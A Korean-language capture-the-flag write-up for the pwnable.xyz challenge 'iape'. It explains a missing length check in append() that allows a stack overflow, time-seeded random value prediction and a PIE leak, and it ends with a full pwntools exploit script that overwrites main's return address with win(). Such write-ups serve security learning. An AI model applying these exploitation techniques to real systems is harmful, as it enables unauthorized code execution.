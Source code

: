 # [pwnable.xyz] iape

> Shake off the pwn and let's do some programming

## The Bug

![image](https://github.com/user-attachments/assets/588e0244-b1dc-4aa4-8000-001af7d76f74)

![image](https://github.com/user-attachments/assets/25086352-8ae1-48d5-ae6d-b20a7c6b93a0)

`append()`에 길이 검사가 존재하지 않아 stack buffer overflow가 발생한다.

## Exploit

`main()`의 return address를 `win()`의 주소로 덮어쓰면 플래그를 획득할 수 있다.

### Generate random values

![image](https://github.com/user-attachments/assets/ac5dd87d-72fe-4f20-bb3a-bcc1b7c97e62)

`setup()`에서 `time(0)` (현재 시각)을 random seed로 설정한다. 이 값은 재현할 수 있기 때문에, `append()`에서 랜덤으로 주는 길이들을 미리 계산해놓을 수 있다.

### Leak PIE

![image](https://github.com/user-attachments/assets/34950351-0f9e-4c2a-87fc-95537ccca289)

`append()`에서 `read()`로 `rbp-0x20`부터 입력을 받는데, `rbp-0x18`에 `read_int32+64`의 주소가 저장되어 있다. `read_int32()` 내부에서 `atoi()`를 호출할 때 만들어진 return address가 쓰레기값으로 남아 있는 것이다.

만약 `len`이 14 이상일 때 8바이트만 입력하면, `strncat()`이 `read_int32+64`의 주소까지 가져와서 `s`에 이어붙이게 된다. 이때 `s`를 출력하면 PIE base를 계산할 수 있다.

Return address 직전까지 `0x408`바이트를 채우면서 `len`이 14 이상일 때 PIE를 leak하고, 그 후에 `main()`의 return address를 `win()`의 주소로 덮어쓴 후 `main()`을 return하면 된다.

### Full code

```python
from pwn import *
from ctypes import *

r = remote("svc.pwnable.xyz", 30014)

sla = r.sendlineafter
sa = r.sendafter


def Init(data):
    sla(b"> ", b"1")
    sla(b"data: ", data)


def Append(data, zero=False):
    sla(b"> ", b"2")
    if not zero:
        sa(b"chars: ", data)


def Print():
    sla(b"> ", b"3")


# generate random values

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(libc.time((0)))

randValues = []
randSum = 0

while randSum <= 0x388:
    randValue = libc.rand() % 0x10
    randValues.append(randValue)
    randSum += randValue


# leak pie

Init(b"A" * (0x408 - randSum))

leaked = False  # true if PIE is leaked

for randValue in randValues:
    if randValue >= 14 and not leaked:
        sla(b"> ", b"2")
        sa(b"chars: ", b"A" * 8)

        Print()

        r.recvline()
        pie = u64(r.recvline()[-7:-1].ljust(8, b"\x00")) - 0xBC2  # pie base
        log.info("pie base: " + hex(pie))

        leaked = True
    elif randValue == 0:
        Append(b"A" * randValue, True)
    else:
        Append(b"A" * randValue)


# overwrite return address

win = pie + 0xB57
overwritten = 0  # overwritten bytes in return address

while overwritten < 6:
    sla(b"> ", b"2")

    r.recvuntil(b"Give me ")
    chars = int(r.recvuntil(b" ")[:-1])

    if overwritten + chars > 8:
        sa(b"chars: ", p64(win)[overwritten:])
    else:
        sa(b"chars: ", p64(win)[overwritten : overwritten + chars])

    overwritten += chars

sla(b"> ", b"0")  # return main() => call win()


r.interactive()
```

![image](https://github.com/user-attachments/assets/cd29612e-c8b5-425c-8117-25c9269d2bce)
